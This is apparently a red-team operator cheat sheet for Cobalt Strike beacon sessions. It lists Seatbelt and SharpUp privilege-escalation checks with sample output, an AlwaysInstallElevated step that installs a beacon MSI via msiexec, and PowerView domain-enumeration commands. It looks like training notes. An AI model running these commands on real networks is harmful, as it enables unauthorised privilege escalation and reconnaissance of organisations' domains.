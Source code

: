 # RTO CheatSheet

## Persistence

### COM Hijacking

<TODO>
  
## PrivEsc
  
### Seatbelt
  
https://github.com/GhostPack/Seatbelt
  
Sample usage:
  
> beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Debug\Seatbelt.exe -group=system
  
### SharpUp

https://github.com/GhostPack/SharpUp

Sample usage:
  
> beacon> execute-assembly C:\Tools\SharpUp\SharpUp\bin\Debug\SharpUp.exe
> 
> === Modifiable Services ===
> 
>  Name             : Vuln-Service-2
>
>  DisplayName      : Vuln-Service-2
>
>  Description      : 
>
>  State            : Running
>
>  StartMode        : Auto
>
>  PathName         : "C:\Program Files\Vuln Services\Service 2.exe"

Detects:
  - Modifiable Service
  - AlwaysInstallElevated flags in Registry
  
#### Weaponized

##### AlwaysInstallElevated - Install msi package file

> beacon> run msiexec /i BeaconInstaller.msi /q /n
  
## Domain Enumeration
  
### PowerView
  
#### Setup

> beacon> powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1
  
#### Usages
  
Retrieve Domain information, parameter is optional:
  
> beacon> powershell Get-Domain -Domain <Domain>

Retrieve Domain Controllers and further Domain information:

> beacon> powershell Get-DomainController | select Forest, Name, OSVersion | fl
  
Retrieve Forest information, parameter is optional:
  
> beacon> powershell Get-ForestDomain -Forest [Forest]
  
Get useful information about domain policies like password policies e.g
  
> beacon> powershell Get-DomainPolicyData | select -ExpandProperty SystemAccess
  
Get User information:
  
> beacon> powershell Get-DomainUser -Identity [username] -Properties DisplayName, MemberOf | fl
